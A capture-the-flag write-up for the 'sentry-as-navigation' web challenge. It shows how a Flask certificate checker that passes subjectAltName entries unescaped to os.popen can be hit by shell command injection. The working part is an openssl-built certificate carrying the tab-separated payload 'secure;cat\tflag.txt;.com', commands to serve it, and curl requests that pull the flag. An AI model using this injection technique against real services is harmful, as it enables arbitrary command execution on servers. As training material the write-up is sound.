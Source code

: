 # sentry-as-navigation

[library.m0unt41n.ch/challenges/sentry-as-navigation](https://library.m0unt41n.ch/challenges/sentry-as-navigation) ![](../../resources/web.svg) ![](../../resources/medium.svg) 

# TL;DR

We get a source for a simple Flask app that tries to resolve
all `subjectAltName` entries of a web certificate provided by
the web server given as input.

The vulnerability is that it internally uses `os.popen()` to run
`nslookup \<string\>` without escaping the `string` in any way.

The exploit is to stand a simple webserver, with a certificate
containing `subjectAltName` that includes a shell injection payload
printing `flag.txt` file, which is then served by the vulnerable
app.

# Analyzing the app

Let's just focus on the vulnerable code:

*   Load certificate for the domain provided in the request

    ```python
    certificate = get_certificate(domain)
    x509 = OpenSSL.crypto.load_certificate(OpenSSL.crypto.FILETYPE_PEM, certificate)
    ```

*   Decode some standard fields into a `result` dict:

    ```python
    result = {
        "subject": [
            {x.decode(): y.decode()} for (x, y) in x509.get_subject().get_components()
        ],
        "issuer": [
            {x.decode(): y.decode()} for (x, y) in x509.get_issuer().get_components()
        ],
        "serialNumber": x509.get_serial_number(),
        "version": x509.get_version(),
        "notBefore": x509.get_notBefore().decode(),
        "notAfter": x509.get_notAfter().decode(),
        "nslookup": {},
    }
    ```

*  Decode the certificate extensions:

    ```python
    extensions = (x509.get_extension(i) for i in range(x509.get_extension_count()))
    extension_data = {e.get_short_name().decode(): str(e) for e in extensions}
    result.update(extension_data)
    ```

*   Extract `subjectAltName` entries, removing the `"DNS:"` prefix. Also remove spaces
as a minimal sanitization:

    ```python
    san_entries = (
        result["subjectAltName"].replace(" ", "").replace("DNS:", "").split(",")
    )
    ```

*   For each `subjectAltName` entry:
    *   Check if it matches a predefined pattern (`^secure.*\.com$`)
    *   Run `nslookup` and store the output in the `result` map

    ```python
    for entry in san_entries:
        match = re.match(r"^secure.*\.com$", entry)
        print(f"{entry}: {match}")
        if match:
            command = f"nslookup {entry}"
            result["nslookup"][entry] = os.popen(command).read().strip()
    ```

# Local exploit

## Create a malicious certificate

We can not add a simple `cat flag.txt` in the payload, because above code
removes spaces from the "domain" name. But, nobody mentioned tabs &#128522;.
So, we'll try `DNS:secure;cat\tflag.txt;.com`.

```bash
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=GB/ST=London/L=London/O=Global Security/OU=R&D Department/CN=example.com" \
    -addext "subjectAltName = DNS:secure;cat\tflag.txt;.com" \
    -keyout cert.key -out cert.crt
```

## Start a Web server using that certificate

Note: you need to do this as root, as this has to bind to port 443.

```
# openssl s_server -key cert.key -cert cert.crt -accept 443 -www
```

## Try it with local Docker container

```bash
$ docker build -t sentry:latest .
$ docker run -p 5000:5000 sentry:latest
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.254.2:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 664-276-320
```

Note that the app exports a debug port (but we don't need it)

## Extract the flag

Write down `$SERVER_IP` to contain public interface of your workstation (running the `openssl s_server` above).

```bash
$ SERVER_IP=192.168.1.10
$ APP_URL=http://127.0.0.1:5000/check
$ curl -s -X POST $APP_URL -d "domain=$SERVER_IP"
(...)
    "notAfter": "20250421163140Z",
    "notBefore": "20240421163140Z",
    "nslookup": {
      "secure;cat\tflag.txt;.com": "shc2024{fake_flag}"
    },
    "serialNumber": 388628575943243043612594917864125328316475023391,
```

Note the flag &#128522; Let's make it a bit more clean

```bash
$ curl -s -X POST $APP_URL -d "domain=$SERVER_IP" | grep shc | sed -r 's/.*(shc2024\{.*\}).*/\1/g'
shc2024{fake_flag}
```

# Remote exploit

Prepare SSL server

*   Start an AWS instance (or an otherwise publicly accessible server)
*   Run above `openssl` commands there
*   Record its `$SERVER_IP`

Start the CTF instance and get a flag from there

```bash
$ APP_URL=https://12345678-1234-1234-1234-123456789abc.ctf.m0unt41n.ch:1337/check
$ curl -s -X POST $APP_URL -d "domain=$SERVER_IP" | grep shc | sed -r 's/.*(shc2024\{.*\}).*/\1/g'
```

---

## `shc2024{SAN_411_th3_th1ngs!!!!!}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
